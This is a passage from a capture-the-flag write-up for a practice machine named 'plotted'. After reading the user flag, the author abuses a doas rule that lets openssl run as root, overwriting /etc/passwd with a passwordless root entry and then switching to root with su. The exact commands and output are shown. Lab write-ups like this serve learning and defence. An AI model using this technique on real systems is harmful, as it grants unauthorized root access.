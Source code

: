 Now let's read the user flag located in our home directory. We could read it earlier but it is what it is:

~~~
plot_admin@plotted:~$ ls
tms_backup  user.txt
plot_admin@plotted:~$ cat user.txt 
779275[REDACTED]1fbadb
~~~

User flag: `779275[REDACTED]1fbadb`

## Going root

Now we need to gain root access to obtain the root flag. After spending a lot of time on enumerating the machine, I finally found a possible way to go root. When we check `/etc/doas.conf` which is the config file for `doas` command, we can see that we can run `openssl` as root:

~~~
plot_admin@plotted:~$ cat /etc/doas.conf
permit nopass plot_admin as root cmd openssl
~~~

`doas` is a program to execute commands as another user and it's basicly the same thing as `sudo`, but it is much smaller in terms of size.

After checking [GTFOBins](https://gtfobins.github.io/), I found a way to escalate my privilege to root (check the sudo part), but I couldn't make it work. It is also possible to read the root flag right now, but where is the fun in that. : )

## Exploit

So I have a plan. There is a way to write files using this permission, so I can modify `/etc/passwd` and remove the `x` in root's line, which means that this user doesn't have any password and we can easily switch to root.

The only thing to do before that, is to keep a copy of `/etc/passwd`, so we can change things back to normal after we are done, because when we modify the file using `openssl`, it would be a pain in back to write all the lines of this file.

Let's start then. First I copied `/etc/passwd` to `/tmp`:

~~~
plot_admin@plotted:~$ cp /etc/passwd /tmp
~~~

Next we will `echo` the root line from `/etc/passwd` and remove the `x` from it and then pipe it to `openssl` to output the content to `/etc/passwd`:

~~~
plot_admin@plotted:~$ echo "root::0:0:root:/root:/bin/bash" | doas openssl enc -out /etc/passwd
~~~

Now we can run `su` and switch to root with no password:

~~~
plot_admin@plotted:~$ su
root@plotted:/home/plot_admin# id
uid=0(root) gid=0(root) groups=0(root)
~~~
